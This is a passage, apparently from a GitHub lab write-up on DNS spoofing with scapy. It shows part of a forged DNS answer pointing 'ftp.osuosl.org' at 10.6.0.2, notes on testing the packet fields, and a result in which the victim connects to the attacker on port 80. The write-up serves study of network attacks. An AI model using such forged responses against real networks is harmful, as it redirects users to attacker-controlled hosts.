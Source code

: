 ```
            |  qclass    = IN
           \an        \
            |###[ DNS Resource Record ]### 
            |  rrname    = 'ftp.osuosl.org.'
            |  type      = A 
            |  rclass    = IN
            |  ttl       = 0
            |  rdlen     = None
            |  rdata     = '10.6.0.2'
           ns        = None
           ar        = None
```
### Testing
I attempted to test this in docker however I could not get `dig` or `nslookup` to actually send UDP requests to localhost which I was listening. 

In the end, just did a sample DNS request to google, printed it (in scapy) and compared each field side by side with a dummy DNS packet created in scapy with the fields that need to be modified.

### Results
After getting the response correct, the victim acts on the malicious DNS response and starts a TCP connection to the attacker via port 80.